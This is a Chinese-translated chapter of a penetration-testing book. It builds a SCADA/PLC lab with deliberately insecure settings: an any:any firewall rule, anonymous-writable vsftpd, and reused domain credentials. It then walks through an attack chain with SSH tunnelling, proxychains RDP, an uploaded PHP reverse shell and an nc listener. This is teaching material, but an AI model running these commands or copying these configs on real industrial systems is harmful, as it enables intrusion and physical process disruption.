

# 第十二章：我看到未来

在上一章之后，如果您按照编写顺序阅读本书，那么我们已经通过防火墙在企业网络中进行了转向，现在在我们的 Windows 7 机器上有一个远程桌面会话。我们已经完成了一个循环，因为我们开始这本书是通过构建实验室，将虚拟流量路由到我们的物理**可编程逻辑控制器**（**PLC**），并构建我们的第一个程序。这台 Windows 7 机器是我们用来配置我们的第一个 PLC 程序并将其推送到 Koyo Click 的工具。在这次冒险中，我们逐渐向我们的实验室添加了一点一滴，沿途建立了我们的技能和知识。到达这里表明终点近在眼前。然而，我们还有最后一个挑战，那就是连接到流程并模拟干扰。这里的关键词是模拟；正如我们在整本书中提到的，流程干扰可能会对成本产生极端影响，甚至可能导致危及生命的问题，因此当您在客户网络中达到这个水平时，必须小心谨慎。

在本章中，我们将通过向我们在上一章安装的防火墙添加第二个接口来更新防火墙，以处理本地控制网络。然后，我们将使用**轻量级目录访问协议**（**LDAP**）将我们的 Ignition SCADA 连接到我们的 LABCORP 域，以强调凭证重用的危险。然后，我们将使用我们在*第一章*中安装的软件包，*使用虚拟化*，来配置一个简单的**文件传输协议**（**FTP**）服务器和**超文本预处理器**（**PHP**）Web 服务器，以模拟低级访问点。

在本章中，我们将涵盖以下主要主题：

+   附加实验室配置

+   用户界面控制

+   脚本访问

# 技术要求

对于本章，您将需要以下内容：

+   一个 pfSense 防火墙，我们在*第十一章*中安装的，*哇... 我必须深入*。

+   一个 Kali Linux 虚拟机必须是打开并运行的。

您可以在此处查看本章的代码示例：[`bit.ly/3j2HgiS`](https://bit.ly/3j2HgiS)

# 附加实验室配置

为了完善我们的实验室，我们将通过向防火墙添加一个接口来增加更多的分段。这个接口将允许我们在我们的第 3 级和第 2 级网络段之间添加规则：

1.  要做到这一点，我们需要对我们的 ESXi 服务器进行更改。在我们的 ESXi 服务器上，我们需要向我们的 pfSense 防火墙添加一个额外的网络适配器。以下截图显示了我如何添加**第 2 级：本地控制**，SCADA 虚拟机所在的位置：

    图 12.1 – 新网络适配器

1.  添加网络适配器后，我们必须重新启动 pfSense 防火墙，并进入 Web 界面。在这里，我们要登录到 Web 门户，选择**接口**，然后选择**分配**，如下图所示：

    图 12.2 – 接口 | 分配

    现在你将看到我们新添加的适配器出现在**接口**列表中，标记为**可用网络端口**，如下图所示：

    

    图 12.3 – 可用网络端口

1.  继续点击**+ 添加**按钮，然后**保存**配置。你应该能看到你的接口已被添加并赋予了一个新的接口名称，如下图所示：

    图 12.4 – OPT1 接口

1.  创建完成后，返回到**接口**菜单。此时，你应该能在下拉菜单中看到`OPT1`。选择`OPT1`接口，如下图所示：

    图 12.5 – 新的 OPT1 接口

1.  现在，你应该能看到你新创建的`OPT1`接口的**通用配置**屏幕。在这里，你可以启用接口、更改描述名称、选择 IPv4 配置等。从这里，我们要确保启用接口并将**IPv4 配置类型**更改为**静态 IPv4**，因为我们将使用此接口作为我们的**第二层：本地控制**网络段的 DHCP 服务器。以下是初始设置的截图：

    图 12.6 – 启用静态 IPv4

1.  接下来，我们需要为此接口设置静态 IP 地址。如果你记得我们最初的设置，我们给**第二层：本地控制**网络段分配了`192.168.2.0/24`子网。我要将我们的接口设置为`192.168.2.1/24`，如下所示：

    图 12.7 – 静态 IPv4 地址

1.  点击**保存**按钮，然后点击**应用更改**按钮，以提交新的接口设置。之后，我们必须为这个新接口设置 DHCP 服务器，通过从顶部菜单栏导航到**服务** | **DHCP 服务器**，如下图所示：

    图 12.8 – DHCP 服务器服务

1.  类似于我们最初为 LAN 接口配置的方式，我们将为 OPT1 配置它。返回到*第十一章*，*哇……我要深入研究*，以便复习；我在这里唯一需要补充的是 IP 地址池，它选择了从`192.168.2.10`到`192.168.2.254`的范围，如下图所示：

    图 12.9 – DHCP 服务器

1.  最后，我们必须在防火墙中创建一个脆弱的*any*:*any*规则，允许我们的新接口向北通信。导航至**防火墙** | **规则**，如图所示：

    图 12.10 – 防火墙 | 规则

1.  从这里，点击**添加规则**按钮。你将看到一个屏幕，允许你编辑一个新的规则。将**操作**设置为**允许**，**接口**设置为`OPT1`，**地址族**设置为`IPv4`，**协议**设置为**任意**，如图所示：

    图 12.11 – 任意规则

1.  点击**保存**按钮，然后点击**应用更改**。之后，尝试在网络中 ping 不同的元素。你应该能够从我们的 SCADA 虚拟机通过 WAN 接口 ping 到公司域控制器，并且我们的 Windows 7 主机应该能够 ping 到 SCADA 虚拟机。

现在你已经测试了网络间的路由，我们将把我们的 Ignition SCADA 连接到 LABCORP 域。

## LDAP 连接

要将我们的 Ignition SCADA 连接到 LABCORP 域，我们将执行以下步骤：

1.  为此，我们需要登录到我们的 Ignition SCADA 界面。一旦建立连接，点击**配置**图标，然后在**安全**部分选择**用户，角色**，如图所示：

    图 12.12 – 用户，角色

1.  选择**用户，角色**链接将弹出**用户来源**配置屏幕。从这里，我们将选择**创建新用户来源…**链接，如图所示：

    图 12.13 – 创建新的用户来源

1.  点击链接以创建新的用户来源后，将呈现一个凭据源选项列表。我们将特别关注`Active Directory`选项。在这里，我们有一个传统源和两个混合源。我将使用**AD/内部混合**源，因为它允许我利用 AD 的身份验证机制，并在 Ignition 中维持组访问和控制粒度。你可以在以下截图中看到这些选项：

    图 12.14 – 新的来源

1.  一旦选择了**下一步 >**按钮，系统将呈现一个新屏幕，允许我们配置**AD/内部混合**源选择的元素。我们将为源提供一个名称；我在这里使用了名称`Operators`。接下来，向下滚动至**Active Directory 属性**并填写所需项：

    +   **域**：`labcorp.local`

    +   **AD 用户名**：`operator1`

    +   **AD 密码**：`Password1`

    +   **域 IP 地址**：`172.16.0.2`

    +   **LDAP 端口 #**：`389`

    以下截图展示了这些配置字段：

    

    图 12.15 – Active Directory 属性

1.  更新字段并保存配置后，Ignition SCADA 将使用该配置与域控制器通信并执行用户搜索。这将建立一个可以用于访问 Ignition SCADA 平台的域用户列表。以下是 Ignition 从我在*第十章*创建的域控制器中拉取的用户列表，凭据为 *I Can Do It 420*：

    图 12.16 – 域用户

1.  接下来，我们需要添加**管理员**角色，并将其分配给我们的`Operator1`用户，如下所示：

    图 12.17 – 角色

1.  在创建了**管理员**角色并将其添加到`Operator1`用户帐户后，我们将通过创建新的身份提供者来更新**身份提供者**列表，如下所示：

    图 12.18 – 身份提供者

1.  一旦我们点击**创建新的身份提供者**链接，我们将看到一个包含多个部分的屏幕，用于配置新的身份。在这里，我们希望为新的身份提供者命名。我使用了`ActiveDirectory`，因为它可以作为一个明确的提醒。然后，我将**用户来源**更改为**操作员**，如下所示：

    图 12.19 – 基本信息

1.  保存配置更新后，您应该会在列表中看到新创建的提供者，如下所示：

    图 12.20 – 添加身份提供者

1.  最后，我们希望更改**通用网关安全设置**。我们希望将**系统身份提供者**切换为`ActiveDirectory`，如下所示：

    图 12.21 – 切换身份提供者

1.  现在，我们必须通过使用在*第十章*中发现的域凭据，登录到 Ignition SCADA 用户界面，来测试我们的`operator1`域用户，凭据为 *I Can Do It 420*。

图 12.22 – operator1 登录

在连接并测试我们的`operator1`凭据后，您应该对许多组织所遭遇的凭据重复使用问题有更清晰的认识。如果您在一个与域连接的系统中找到凭据，那么这些凭据很有可能帮助您访问网络内部的其他系统。

故事时间

在一次参与中，我通过利用一个用于为新计算机配置和将它们加入域的域服务帐户获得了对网络的立足点。由于某种原因，类似 Ansible 的脚本未能将该服务帐户从新配置的系统中移除，令我惊讶的是，它未能从所有计算机中移除该服务帐户。这个服务帐户是一个独特的发现，因为它允许我在系统中进行导航和跳跃，但最有趣的用途是它对域信息的访问权限。我使用这个帐户分析了域中的每个用户，并了解了他们的职务和他们拥有的计算机。这对于缩小我寻找直接访问 **分布式控制系统**（**DCS**）的工作人员的范围非常有用。快速发现了特定的领导操作帐户以及该个人拥有的计算机后，我使用 **远程桌面协议**（**RDP**）访问了该机器，然后转储了凭据，类似于我们在 *第十章*，*我能做到 420* 中做的事情。在收集了用户的凭据后，我能够重新使用它们，通过保存在桌面上的一个 Putty 连接获得立足点。

## PHP 设置

我们将在此实验配置部分，通过创建和更新我们的 `ftp` 文件夹及配置文件来完成。我们在 *第一章*，*使用虚拟化* 中安装了 `vsftp`，现在我们将使用它。我们将执行以下步骤：

1.  为我们的 `ftp` 服务器创建一个公共文件夹：

    `sudo mkdir -p /var/ftp/pub`

1.  更改我们的公共文件夹的所有权：

    `sudo chown nobody:nogroup /var/ftp/pub`

    `sudo chown -R ftp /var/ftp/pub`

1.  备份我们原始的 `vsftp` 配置文件：

    `sudo cp /etc/vsftpd.conf /etc/vsftpd.conf.orig`

    `sudo rm /etc/vsftpd.conf`

1.  使用易受攻击的设置创建一个新的配置文件：

    `sudo echo "listen=NO" > /etc/vsftpd.conf`

    `sudo echo "listen_ipv6=YES" >> /etc/vsftpd.conf`

    `sudo echo "anonymous_enable=YES" >> /etc/vsftpd.conf`

    `sudo echo "local_enable=NO" >> /etc/vsftpd.conf`

    `sudo echo "write_enable=YES" >> /etc/vsftpd.conf`

    `sudo echo "anon_upload_enable=YES" >> /etc/vsftpd.conf`

    `sudo echo "anon_mkdir_write_enable=YES" >> /etc/vsftpd.conf`

    `sudo echo "anon_root=/var/ftp/" >> /etc/vsftpd.conf`

    `sudo echo "no_anon_password=YES" >> /etc/vsftpd.conf`

    `sudo echo "hide_ids=YES" >> /etc/vsftpd.conf`

    `sudo echo "anon_umask=022" >> /etc/vsftpd.conf`

    `sudo echo "anon_other_write_enable=YES" >> /etc/vsftpd.conf`

    `sudo echo "dirmessage_enable=YES" >> /etc/vsftpd.conf`

    `sudo echo "use_localtime=YES" >> /etc/vsftpd.conf`

    `sudo echo "xferlog_enable=YES" >> /etc/vsftpd.conf`

    `sudo echo "connect_from_port_20=YES" >> /etc/vsftpd.conf`

    `sudo echo "pam_service_name=vsftpd" >> /etc/vsftpd.conf`

    `sudo echo "utf8_filesystem=YES" >> /etc/vsftpd.conf`

1.  启动 PHP 服务器：

    `sudo systemctl restart vsftpd`

    `echo 'Finished -Running Webserver'`

    `cd /var/ftp/pub`

    `php -S 0.0.0.0:8000`

一旦实施，我们将拥有一个完全成型的 FTP 和一个运行中的 PHP Web 服务器。尽管这些工具可能看起来很简单，但它们确实复制了真实世界的安装和设置。在工业网络中经常发现 FTP 服务器是很常见的，因为它们通常用于传递控制软件更新、补丁甚至固件。找到这些服务器非常关键，因为通常它们允许读写访问，我们可以利用这一点在网络的这一级别上提升我们的特权。在下一节中，我们将建立一个隧道并使用代理链来访问 SCADA 网络的**用户界面**（**UI**）控制。

# 用户界面控制

现在，我知道我们在实验室安装了一个 SCADA 系统进行测试，是的，我们在本书中一直在研究 Ignition SCADA，但是要知道，执行这些操作并实践这些攻击可以转化为真实的工业安装。所有 SCADA 和**分布式控制系统**（**DCS**）的核心都是相同的基本原理：

1.  接收输入。

1.  对输入运行逻辑和例行程序。

1.  交付输出到进程。

这意味着即使有无数家公司生产 SCADA 和 DCS 软件，它们的功能方式都是相同的。以下是一些您可能会看到的系统：

+   Weatherford `Cygent` SCADA

+   Schneider Electric `Telvent`

+   Emerson `Zedi Solutions`，`Ovation`，`Progea`和`DeltaV`

+   Aveva `Citech` SCADA

+   Honeywell `Experion`

+   ABB `SCADAvantage`，`Symphony`和`800xA`

+   GE `Cimplicity`

+   `SurvalentOne` SCADA

列出的是你可能会遇到的系统的广义列表。在世界各地的各个部分仍然使用许多旧的遗留系统的健康混合。往往是“*如果它没坏，就不要修*”，这意味着如果流程正在运行并产生收入，那么没有必要更换系统。因此，掌握这些系统的工作知识将使您在您的渗透测试职业中进一步利用它们。在本节中，我们将利用上一章节中获得的知识。我们将更深入地转向网络并到达我们的工作站，该工作站可以访问我们的 SCADA 系统。然后，我们将利用凭证重用攻击来访问 SCADA 系统的用户界面。

下图显示了我们到达 SCADA 用户界面的攻击路径：

图 12.23 – 攻击路径

使用动态 SSH 隧道和通过代理链运行`xfreerdp`，正如我们在*第十一章*中所述，*Whoot…. I Have To Go Deep*，我们可以建立与我们的 SCADA 主机的远程连接。作为一个快速的复习，运行以下命令将构建我们的动态 SSH 隧道：

ssh -D 9000 -fN operator1@172.16.0.4

然后，我们希望使用以下命令通过`proxychains`运行`xfreerdp`：

proxychains xfreerdp /u:operator1 /p:Password1 /v:172.16.0.7

在生产环境中，你会发现工作站通常会登录到 SCADA 系统，或者至少会打开并运行 Web 门户以便于访问。最糟糕的情况是桌面上有一个链接。这显然不是*黑客风骚*，因为我们只是在利用糟糕的安全实践、不良政策和破碎的防火墙规则。然而，渗透测试系统的整个目的就是帮助客户发现系统中的缺陷，并利用、利用并记录这些缺陷。通常情况下，你会发现*可重用凭证*、默认凭证或供应商委托的凭证作为入侵点。

一旦我们的远程会话建立，使用我们的`operator1**/**Password1`凭证访问 Ignition 控制台，如下所示：

图 12.24 – 凭证重用

进入系统后，您应当记录下该 SCADA 解决方案能够访问的设备和控制项。我们希望建立我们的态势感知，并记录发现的内容以备报告之用。我们将在下一章详细讨论这一点。这里是一个快速检查清单，列出了需要查找的项目：

+   该 SCADA 系统控制的是什么进程？

+   哪些资产具有读写访问权限？

+   这个系统的安全性是如何设置的？

+   是否存在连接的数据库，如数据历史记录？

理解访问权限的大小可以决定对组织可能造成的影响程度。在用户界面访问层面，大多数人默认认为你对进程拥有最终控制权。是的，这是一个令人恐惧的场景，攻击者可能会关闭并禁用进程或工厂，但请思考更深层次和更广泛的场景。如果系统已连接到域，就像我们的 SCADA 系统一样，假设攻击者删除了配置呢？这意味着没有人能够通过域认证访问 SCADA 系统并进行更改。这将引发混乱，因为进程仍在运行，但现在失去了控制。

你可能会想，*如果我可以关闭该进程，那为什么还会担心失去控制呢？* 这是一个很好的问题，你是对的，但大多数操作仍然可以在本地手动执行。当发生此类事件时，趣味的是，它们发生的频率比你想象的还要高——并非来自威胁行为者，而是更多地来自配置错误——操作员会断开远程访问并手动运行该进程。看一下下面的截图；你能发现多少不同的项目，可以升级、降级、恢复或更改，从而在系统中引发混乱？

图 12.25 – 用户界面配置访问

警告

再次强调，仅仅因为你能够获得这种级别的访问权限，并不意味着你应该实施或更改任何内容。这类行为可能会让你入狱。

提到抽象和带外操作的原因完全是出于报告目的。可能会遇到某个客户，采取了极大的努力来实施和部署安全措施，旨在阻止你的操作。你可能不会像本实验中展示的那样幸运，能够获得完全的控制和访问权限，因此你需要适应，灵活应对，并深入挖掘潜在的风险点以供报告。在下一节中，我们将通过使用脚本探索如何更深入地访问 SCADA 服务器。

# 脚本访问

在上一节中，我们讨论了通过获得 UI 控制所能执行的访问和控制级别。在本节中，我们将尝试获得更深入的 SCADA 服务器访问权限，这将使我们能够绕过 UI 控制，直接与物理设备进行通信。在我们的案例中，这将是 Koyo Click。

从我们的工作站出发，我们想要测试我们的 SCADA 服务器是否正在运行某种文件共享服务，并且该服务对内部网文件传输开放。运行以下命令：

ftp 192.168.2.11

这将引导我们到登录提示。 我通常会检查是否有服务正在使用匿名凭证访问。在这种情况下，我们将使用用户名 `anonymous`。从 **230 登录成功** 的响应可以看出，我们拥有匿名访问权限：

图 12.26 – FTP 连接到 SCADA

接下来，我们将切换到 `pub` 文件夹并检查我们的访问权限。我们可以通过在 `pub` 文件夹内创建一个文件夹来快速完成此操作，使用以下命令：

mkdir images

就这样，我们知道我们已经对该文件夹拥有写入权限：

图 12.27 – 对 pub 文件夹的写入访问

是的，我们确实稍微作弊了一下，因为我们在本章的第一节中配置了这个 FTP 服务器，但我希望你能够感受一下流的工作方式，并通过访问系统的这一层级来了解流程。我们知道 SCADA 服务器的 `8000` 端口上有一个 PHP 服务器在监听，因此在我们的被攻破的工作站上，我们可以浏览该端口并查看服务器托管的数据。现在，这是一个开发服务器，这意味着不会像 Apache 或 **互联网信息服务**(**IIS**) 那样有本地目录列表，因此当你遇到 **未找到** 消息时，不必惊慌。这可以通过简单地在根文件夹中添加一个空白的 `index.php` 文件，或者创建一个执行目录列表的专用 PHP 文件来纠正，后者超出了本书的讨论范围。

接下来，我们希望将一个 PHP `webshell` 上传到我们的 FTP 服务器。当使用 Kali Linux 时，默认情况下，`webshells`会存储在`/usr/share/webshells`文件夹中，如果你查看该文件夹的列表，你应该能看到以下内容：

图 12.28 – webshells

我们希望将 PHP `php-reverse-shell.php` 文件复制到我们的 Kali 工作目录中，然后做一些轻微的修改。如果你向下滚动文件，你会遇到以下内容：

图 12.29 – php-reverse-shell.php

在这里，我们要更改`$ip`信息和`$port`信息，使其与我们的 Kali Linux 主机的 IP 地址和我们选择的端口匹配。更改此信息后，我们将把该文件放到 Windows 7 工作站中。作为提醒，我总是使用以下命令：

python3 -m http.server

我这样做是为了生成一个临时服务器，我可以导航到该服务器并下载文件。一旦你将`php-reverse-shell.php`文件放到受害者的工作站计算机上，你必须运行以下命令，将文件传输到 SCADA 盒子上的 FTP 服务器：

上传 php-reverse-shell.php

如果一切正常，你应该看到以下输出：

图 12.30 – 上传 php-reverse-shell.php

接下来，我们希望通过运行以下命令，确保在 Kali 上设置了一个监听器：

nc -nvlp 4444

确保更改你的端口号，使其与`webshell`文件中配置的端口一致。在设置好监听器后，返回工作站并浏览到以下位置：

图 12.31 – 导航到反向 Shell

如果你返回到 Kali 监听器，你应该会看到你有一个新的 Shell，如下所示：

图 11.32 – 新的反向 Shell

如你所见，我们已经获得了一个反向 Shell，并且我们以 root 身份运行。从这里开始，我们可以简单地将我们在*第八章*中编写的脚本，*协议 202*，复制进来，并通过开启和关闭灯光来利用物理 PLC。在专业的操作中，当我们获得这种级别的访问权限时，我们可以加载工具，发现 SCADA/DCS 系统连接的设备。根据合作的深入程度，你可能会被要求进一步探查，确定哪些硬件可能被破坏。

警告

我提醒你，像 UI 控制一样，在网络的这个层级进行更改和操作可能会产生不良影响，导致干扰、损坏甚至是系统崩溃。即使你的客户鼓励你深入探查，我还是建议你谨慎行事，因为更改的副作用通常只有在为时已晚时才会显现出来。

到目前为止，我们已经从上到下完全访问了网络。现在，我们可以移动并推动任何我们想要的变更和配置。我们完全控制了系统，这也是渗透测试人员职业中带来的激动的一部分。

# 总结

在本章中，我们通过向防火墙添加新接口进一步分割了我们的实验室网络。然后，我们利用我们在*第十一章*，*深入……我要深入了*中学到的技巧，获取了一个动态 shell，并通过代理链到我们的工作站受害者启动了远程桌面会话。之后，我们讨论了我们在渗透测试旅程中可能遇到的各种 SCADA 和 DCS 系统。我们重复使用各种凭据来利用我们的 SCADA 系统的用户界面，然后利用配置错误的 FTP 服务器，反向获取了我们攻击盒的 shell。我们利用系统直至控制硬件，并在此过程中讨论了深入控制平面的风险。获取这么深入的立足点应该足以应对你参与的 99.99%的任务。

理解技术和深入的后果及其结果将成为总结报告中的重要补充。我们将在下一章中进行这一步骤，这是所有渗透测试任务的最后阶段：报告阶段。
